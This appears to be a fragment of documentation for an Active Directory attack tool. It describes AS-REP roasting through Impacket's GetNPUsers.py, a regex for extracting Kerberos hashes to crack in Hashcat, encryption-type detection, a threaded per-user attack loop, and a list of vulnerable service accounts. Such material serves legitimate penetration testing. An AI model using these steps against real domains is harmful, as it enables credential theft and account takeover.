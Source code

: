 ```python
    Encryption Detection:
        - $23$ = RC4-HMAC
        - $17$ = AES128
        - $18$ = AES256
```

### AS-REP Request (ASREPRoasting)
```python
def request_asrep_ticket_impacket(domain, username, dc_ip, timeout=30):
    # Uses Impacket's GetNPUsers.py
    # Command: GetNPUsers.py <domain>/ -usersfile - -format hashcat -dc-ip <DC> -no-pass
    
    Process:
    1. Send AS-REQ without pre-authentication data
    2. Check if KDC responds with AS-REP (vulnerability indicator)
    3. Extract encrypted timestamp from AS-REP
    4. Format for Hashcat mode 18200
    5. Return hash if successful
    
    Regex Pattern: r'\$krb5asrep\$23\$[^\s]+'
```

### Concurrent Execution
```python
with ThreadPoolExecutor(max_workers=args.workers) as executor:
    # Submit tasks for each user/SPN
    futures = []
    for user in users:
        future = executor.submit(attack_function, user, ...)
        futures.append(future)
    
    # Process results as completed
    for future in as_completed(futures):
        result = future.result()
        # Handle success/failure
```

**Threading Details**:
- Default: 10 concurrent workers
- Configurable via `-w` parameter
- Thread-safe result collection
- Graceful exception handling per thread

## Output Formats

### kerblist.txt (Vulnerable Accounts)
```
domain\svc-sql
domain\svc-web
domain\app-account
```
